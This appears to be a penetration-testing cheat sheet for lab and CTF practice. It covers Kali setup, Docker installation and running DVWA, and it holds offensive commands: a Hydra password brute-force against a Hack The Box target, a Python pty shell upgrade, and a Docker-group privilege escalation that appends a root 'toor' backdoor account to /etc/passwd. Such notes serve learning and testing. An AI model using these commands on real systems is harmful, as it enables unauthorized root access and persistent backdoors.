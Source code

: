### Python simple HTTP server
```Python
python -m SimpleHTTPServer 
```
### Kali Linux assign two network interfaces
Edit `/etc/network/interfaces` and add these lines
```
auto eth0 
iface eth0 inet dhcp 
 
 
auto eth1 
iface eth1 inet dhcp 

```
And then restart the network with following commands.
```bash
systemctl stop networking 
systemctl start networking 
```
### Get interactive bash shell using python
```Python
python -c "import pty;pty.spawn('/bin/bash')"
```
## Helpful firefox addons
### FoxyProxy
> FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns. Put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog. Proxy server switching occurs based on the loading URL and the switching rules you define
### Fireforce
> brute-force attacks on GET or POST forms

## Brute-force techniques
### THC Hydra
```bash
# hydra -l admin -P /usr/share/wordlist/rockyou.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 35644
```
## Docker
### Install Docker
#### Add Docker PGP key:

```bash
# curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
```

#### Configure Docker APT repository:

```bash
# echo 'deb https://download.docker.com/linux/debian stretch stable' > /etc/apt/sources.list.d/docker.list
```

#### Update APT:

```bash
# apt-get update
```

#### Install Docker

If you had older versions of Docker installed, uninstall them:

```bash
# apt-get remove docker docker-engine docker.io
```
Install Docker:

```bash
# apt-get install docker-ce
```
#### Post Install settings
```bash
# systemctl start docker
# systemctl enable docker
```
#### Testing
```bash
# docker run hello-world
```
### Setup DVWA
```bash
# docker run -d -p 80:80 citizenstig/dvwa
```
## Privilege Escalation
### User part of docker group
You land on a computer and `id` shows you're part of the `docker` group. Escalate to root with:

```bash
$> docker run -it --rm -v $PWD:/mnt bash
```

adds backdoor toor:password
```bash
#> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

